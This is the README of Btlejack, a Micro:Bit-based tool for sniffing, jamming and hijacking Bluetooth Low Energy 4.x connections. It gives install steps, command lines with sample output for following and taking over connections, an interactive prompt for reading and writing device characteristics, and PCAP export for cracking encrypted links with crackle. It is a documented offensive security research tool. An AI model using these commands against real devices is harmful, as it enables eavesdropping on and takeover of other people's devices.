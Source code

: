 BtleJack: a new Bluetooth Low Energy swiss-army knife
#####################################################

Btlejack provides everything you need to sniff, jam and hijack Bluetooth Low Energy devices. It relies on one or more `BBC Micro:Bit <http://microbit.org/>`_. devices running a dedicated firmware.

**This tool only supports Bluetooth Low Energy 4.x.**

How to install
==============

First, install the ``btlejack`` Python3 client software with Pip:

::

  $ sudo pip3 install btlejack


Then, connect your Micro:Bit device to your computer with a USB cable, mount the associated mass storage device (the mount point must contain **MICROBIT**), and issue the following command:

::

  $ btlejack -i

This will program every Micro:Bit device connected to your computer, and make
them ready to use with Btlejack. It will use the correct firmware version for the current client software, so it is highly recommended to perform this firmware installation procedure each time you update Btlejack.

Keep your microbits connected and you're all set !

**NOTE** This only works with posix compatible systems.

How to use Btlejack
===================

Using Btlejack is quite easy. Btlejack can:

- sniff an existing BLE connection
- sniff new BLE connections
- jam an existing BLE connection
- hijack an existing BLE connection
- export captured packets to various PCAP formats

Sniffing an existing connection
-------------------------------

First, find an existing connection to target with ``btlejack``:

::

  $ btlejack -s
  BtleJack version 1.1

  [i] Enumerating existing connections ...
  [ - 54 dBm] 0xcd91d517 | pkts: 1
  [ - 46 dBm] 0xcd91d517 | pkts: 2

The first value (in dBm) shows the power of the signal, the greater this value is the better the sniffed connection will be.

The second value (hex) is the associated *access address*, a 32-bit value identifying a link between two bluetooth low energy compatible devices.

The last value is the number of packets seen with this *access address*. The higher this value is, the more probable the corresponding *access address* is used.

Then, use the `-f` option to follow a specific connection:

::

  $ btlejack -f 0xdda4845e
  BtleJack version 1.1

  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0xdda4845e ...
  ✓ CRCInit: 0x2a035e
  ✓ Channel Map = 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 15
  [i] Synchronized, packet capture in progress ...
  LL Data: 02 07 03 00 04 00 0a 03 00
  LL Data: 0a 08 04 00 04 00 0b 5a 69 70
  LL Data: 02 07 03 00 04 00 0a 03 00
  LL Data: 0a 08 04 00 04 00 0b 5a 69 70


**If you are using more than 1 microbit, Btlejack will parallelize some of the sniffing operations in order to speed up the connection parametres recovery !**

Sniffing for new connections
----------------------------

The  ``-c`` option supported by ``btlejack`` allows you to specify the target BD address, or you may want to use ``any`` to capture any new connection created.

::

  $ btlejack -c any
  BtleJack version 1.1

  [i] Detected sniffers:
   > Sniffer #0: version 1.1
   > Sniffer #1: version 1.1
  LL Data: 05 22 df b4 6f 95 c5 55 c0 0a f6 99 23 40 1d 7b 2f 0a 9a f4 93 01 12 00 27 00 00 00 d0 07 ff ff ff ff 1f 0b
  [i] Got CONNECT_REQ packet from 55:c5:95:6f:b4:df to 40:23:99:f6:0a:c0
   |-- Access Address: 0x0a2f7b1d
   |-- CRC Init value: 0x93f49a
   |-- Hop interval: 39
   |-- Hop increment: 11
   |-- Channel Map: 1fffffffff
   |-- Timeout: 20000 ms

  LL Data: 03 09 08 0f 00 00 00 00 00 00 00
  LL Data: 03 09 08 0f 00 00 00 00 00 00 00
  LL Data: 0b 06 0c 08 0f 00 09 41
  LL Data: 03 06 0c 07 1d 00 d3 07

or you may also want to specify the target BD address:

::

  $ btlejack -c 03:e1:f0:00:11:22


**If you connect at least 3 microbits at the same time on your computer, Btlejack will be able to sniff on every advertising channels and has far more chance to capture the connection request.**

Jamming a connection
--------------------

Once a connection identified by its *access address*, you can provide jam it by using the ``-j`` option:

::

  $ btlejack -f 0x129f3244 -j̀


Hijacking a BLE connection
--------------------------

Btlejack is also able to hijack an existing connection, use the ``-t`` option to do so. Once hijacked, Btlejack will give you a prompt allowing you to interact with the hijacked device.

First, hijack an existing connection:

::

  $ btlejack -f 0x9c68fd30 -t -m 0x1fffffffff
  BtleJack version 1.1

  [i] Using cached parameters (created on 2018-08-11 01:48:24)
  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0x9c68fd30 ...
  ✓ CRCInit: 0x81f733
  ✓ Channel map is provided: 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 9
  [i] Synchronized, hijacking in progress ...
  [i] Connection successfully hijacked, it is all yours \o/
  btlejack>

Then use the following commands to interact with the device:
- **discover**: performs services and characteristics enumeration, will give you all the information about services and characteristics
- **write**: write data to a specific value handle
- **read**: read data from a specific value handle
- **ll**: sends a raw link-layer packet (for ninjas)

*discover* command
^^^^^^^^^^^^^^^^^^

The ``discover`` command will send and receive Bluetooth LE packets and retrieve all the services UUIDs and parameters, as well as characteristics UUIDs and parameters:

::

  btlejack> discover
  start: 0001 end: 0005
  start: 0014 end: 001a
  start: 0028 end: ffff
   Discovered services:
  Service UUID: 1801
   Characteristic UUID: 2a05
     | handle: 0002
     | properties: indicate  (20)
     \ value handle: 0003

  Service UUID: 1800
   Characteristic UUID: 2a04
     | handle: 0019
     | properties: read  (02)
     \ value handle: 001a

   Characteristic UUID: 2a00
     | handle: 0015
     | properties: read  (02)
     \ value handle: 0016

   Characteristic UUID: 2a01
     | handle: 0017
     | properties: read  (02)
     \ value handle: 0018

  Service UUID: 1824
   Characteristic UUID: 2abc
     | handle: 0029
     | properties: write indicate  (28)
     \ value handle: 002a

*read* command
^^^^^^^^^^^^^^

The ``read`` command accepts a single parameter, the value handle corresponding to the characteristic you want to read from:

::

  btlejack> read 0x16
  read>> 4c 47 20 77 65 62 4f 53 20 54 56

*write* command
^^^^^^^^^^^^^^^

The ``write`` command accepts three parameters:

::

  btlejack> write <value handle> <data format> <data>


Supported data formats:

- ``hex``: hex data (i.e. "414261")
- ``str``: text string, may be encapsulated in double quotes

*ll* command
^^^^^^^^^^^^

This last command allows you to send Bluetooth Low Energy Link-layer PDUs, in hex form, as specified in Volume 6, Part B, Chapter 2.4.


PCAP file export
----------------

One interesting feature of Btlejack is the possibility to export the captured data to a PCAP file.

Btlejack supports the following DLT formats:

* DLT_BLUETOOTH_LE_LL_WITH_PHDR (same)
* DLT_NORDIC_BLE (the one used by Nordic' sniffer)
* DLT_BLUETOOTH_LE_LL (supported on latest versions of Wireshark)

The output file may be specified using the `-o` option, while the output format may be specified with the `-x` option. Valid formats values are: `ll_phdr`, `nordic`, or `pcap` (default).

::

  $ btlejack -f 0xac56bc12 -x nordic -o capture.nordic.pcap


The ``ll_phdr`` export type is useful when sniffing an encrypted connection, as it is also supported by `crackle <https://github.com/mikeryan/crackle>`_. So if you want to sniff and break encrypted connections, this is the way to go.

You may also need to tell crackle to use a specific cracking strategy, by using the `-s` option:

::

  $ crackle -i some.pcap -s 1
